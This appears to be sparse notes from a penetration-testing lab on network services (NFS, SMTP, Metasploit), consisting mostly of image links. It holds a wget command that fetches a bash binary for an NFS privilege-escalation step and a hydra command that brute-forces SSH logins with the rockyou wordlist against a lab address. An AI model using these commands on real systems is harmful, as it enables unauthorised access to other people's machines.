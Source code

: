 ### Exploiting NFS

wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
![[Images/image12.png]]

![[Images/image59.png]]
![[Images/image64.png]]
![[Images/image72.png]]
![[Images/image29.png]]

![[Images/image53.png]]
![[Images/image45.png]]
![[Images/image56.png]]

![[Images/image17.png]]
![[Images/image23.png]]
![[Images/image71.png]]


# Understanding SMTP

sudo apt install seclists

`hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.223.172 ssh`

![[Images/image66.png]]
![[Images/image11.png]]
![[Images/image2.png]]
![[Images/image61.png]]
![[Images/image32.png]]

![[Images/image10.png]]
![[Images/image7.png]]

![[Images/image50.png]]
![[Images/image27.png]]

# Metasploit

![[Images/image68.png]]
![[Images/image57.png]]
![[Images/image19.png]]
![[Images/image21.png]]
![[Images/image49.png]]
![[Images/image8.png]]
![[Images/image46.png]]
![[Images/image36.png]]